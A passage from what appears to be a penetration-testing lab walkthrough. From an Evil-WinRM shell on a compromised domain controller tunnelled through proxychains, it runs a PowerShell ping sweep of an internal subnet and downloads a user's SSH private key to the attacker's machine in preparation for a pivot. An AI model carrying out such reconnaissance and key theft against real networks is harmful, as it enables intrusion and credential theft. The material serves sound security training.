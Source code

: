 ```powershell
   Default Gateway . . . . . . . . . : 172.16.9.1
   DHCPv6 IAID . . . . . . . . . . . : 167792726
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-2A-29-62-C9-00-50-56-B9-16-51
   DNS Servers . . . . . . . . . . . : ::1
                                       127.0.0.1
   NetBIOS over Tcpip. . . . . . . . : Enabled
```

Typing `arp -a` to view the arp table does not yield anything interesting. We can use PowerShell to perform a ping sweep and attempt to identify live hosts.

```powershell
*Evil-WinRM* PS C:\Department Shares\IT\Private\Networking>  1..100 | % {"172.16.9.$($_): $(Test-Connection -count 1 -comp 172.16.9.$($_) -quiet)"}

|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:5985-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:5985-<><>-OK
172.16.9.1: False
172.16.9.2: False
172.16.9.3: True
172.16.9.4: False

<SNIP>

172.16.9.24: False
172.16.9.25: True
172.16.9.26: False
172.16.9.27: False

<SNIP>
```

We can see one live host, `172.16.9.25`, that perhaps one of the SSH private keys will work against. Let's get to work. First download the SSH keys via our `evil-winrm` connection to the Domain Controller.

```powershell
Evil-WinRM* PS C:\Department Shares\IT\Private\Networking> download "C:\Department Shares\IT\Private\Networking\ssmallsadm-id_rsa" /tmp/ssmallsadm-id_rsa 

Info: Downloading C:\Department Shares\IT\Private\Networking\ssmallsadm-id_rsa to /tmp/ssmallsadm-id_rsa

|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:5985-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:5985-<><>-OK
                                                             
Info: Download successful!

*Evil-WinRM* PS C:\Department Shares\IT\Private\Networking> 
```

***

## The Double Pivot - MGMT01
